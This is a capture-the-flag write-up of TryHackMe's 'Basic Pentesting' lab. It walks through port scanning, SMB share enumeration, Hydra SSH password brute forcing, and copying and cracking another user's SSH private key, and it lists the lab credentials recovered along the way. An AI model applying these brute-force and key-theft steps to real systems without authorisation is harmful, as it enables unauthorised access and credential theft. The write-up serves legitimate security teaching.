










# TryHackMe - Basic Pentesting Write-up

## Room Information

Basic Pentesting is a beginner-friendly TryHackMe room designed to introduce core penetration testing concepts, including service enumeration, web directory discovery, SMB enumeration, credential brute forcing, Linux enumeration, and SSH key cracking.

---

## Objective

The objective of this room was to perform reconnaissance against the target machine, enumerate available services, discover valid credentials, gain initial access via SSH, enumerate the Linux system for privilege escalation vectors, and recover the final password.

---

## Tools Used

* Nmap
* Dirsearch
* Enum4Linux
* SMBClient
* Hydra
* SSH
* John the Ripper
* SSH2John

---

# Task 1: Reconnaissance

### Question

* Find the services exposed by the machine.

## Nmap Scan

I began by performing a TCP SYN scan to identify open ports and the services running on the target machine.

```bash
nmap -sS 10.49.177.111
```

## Results

The scan identified the following open services:

* Port 22 → SSH
* Port 80 → HTTP
* Port 139 → NetBIOS
* Port 445 → SMB
* Port 8009 → AJP13
* Port 8080 → HTTP Proxy

These services became the primary focus during the enumeration phase.


---

# Task 2: Web Enumeration

### Question

* What is the name of the hidden directory on the web server?

To discover hidden content on the web server, I performed directory enumeration using Dirsearch.

```bash
dirsearch -u http://10.49.177.111
```

## Results

The scan revealed a hidden directory:

* **development**

The directory contained developer notes that hinted at usernames and confirmed that further enumeration was required.


---

# Task 3: SMB Enumeration & Credential Discovery

### Questions

* What is the username?
* What is the password?

After identifying SMB as an available service, I enumerated the available shares using Enum4Linux.

```bash
enum4linux -S 10.49.177.111
```



## Results

The scan revealed two accessible SMB shares:

* Anonymous
* IPC$



I connected to the **Anonymous** share without authentication.

```bash
smbclient //10.49.177.111/Anonymous -N

ls
get staff.txt
```

Listing the share revealed a file named **staff.txt**.





Reading the file produced the following message:

```text
Announcement to staff:

PLEASE do not upload non-work-related items to this share.
I know it's all in fun, but this is how mistakes happen.
(This means you too, Jan!)

-Kay
```

From this message, I identified **Jan** as a valid username.



I also attempted to enumerate the **IPC$** share, but it did not contain any useful information.



Using the discovered username, I performed a brute-force attack against the SSH service with Hydra.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.49.177.111 -t 4 -f
```

Hydra successfully recovered the user's password.

## Results

* Username: **jan**
* Password: **armando**


---

# Task 4: Initial Access

### Question

* What service do you use to access the server?

Using the credentials recovered from Hydra, I connected to the target system over SSH.

```bash
ssh jan@10.49.177.111
```



## Results

Authentication was successful, providing a user shell as **jan**.

After logging in, I enumerated the `/home` directory and discovered another user account named **kay**.

```bash
cd ..
ls
```


Inside Kay's home directory, I discovered a file named **pass.bak**, but I did not have permission to read it.

```bash
cat pass.bak
```


Further enumeration revealed an `.ssh` directory containing an encrypted private SSH key.

```bash
cd .ssh
ls
cat id_rsa
```


The private key was copied to my local machine for offline password cracking.




---

# Task 5: SSH Key Cracking

### Question

* What is the passphrase for Kay's private SSH key?

To recover the SSH key's passphrase, I converted the private key into a format supported by John the Ripper.

```bash
ssh2john id_rsa > hashes.txt
```


I then cracked the encrypted SSH key using the RockYou wordlist.

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After the attack completed, I displayed the recovered passphrase.


```bash
john --show hashes.txt
```


## Results

John the Ripper successfully recovered the passphrase:

```text
beeswax
```


---

# Task 6: Accessing Kay's Account

### Question

* What is the final password you obtain?

Before using the private key, I updated its permissions.

```bash
chmod 600 id_rsa
```

I then authenticated to the target as **kay** using the recovered SSH key.

```bash
ssh -i id_rsa kay@<TARGET_IP>
```



When prompted, I entered the recovered passphrase:

```text
beeswax
```

Authentication was successful, granting access to Kay's account.

I then viewed the contents of the previously inaccessible **pass.bak** file.

```bash
cat pass.bak
```

## Results

The final password obtained was:

```text
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


---

# Lessons Learned

* Conducting service enumeration using Nmap.
* Discovering hidden directories through web enumeration.
* Enumerating SMB shares with Enum4Linux.
* Accessing anonymous SMB shares using SMBClient.
* Identifying usernames from publicly accessible files.
* Brute forcing SSH credentials using Hydra.
* Performing Linux post-exploitation enumeration.
* Discovering sensitive SSH private keys.
* Cracking encrypted SSH keys using SSH2John and John the Ripper.
* Authenticating with SSH private keys.
* Understanding how poor credential management can lead to privilege escalation.

---

# Conclusion

This room demonstrated the importance of systematic enumeration throughout every stage of a penetration test. Initial reconnaissance identified several exposed services, while web and SMB enumeration uncovered valuable information that led to valid credentials. After gaining initial access via SSH, Linux enumeration revealed an encrypted private SSH key belonging to another user. By cracking the key's passphrase with John the Ripper and authenticating as the second user, I successfully recovered the final password. Overall, this room reinforced the value of thorough reconnaissance, careful post-exploitation enumeration, and combining multiple techniques to achieve full compromise of a target system.
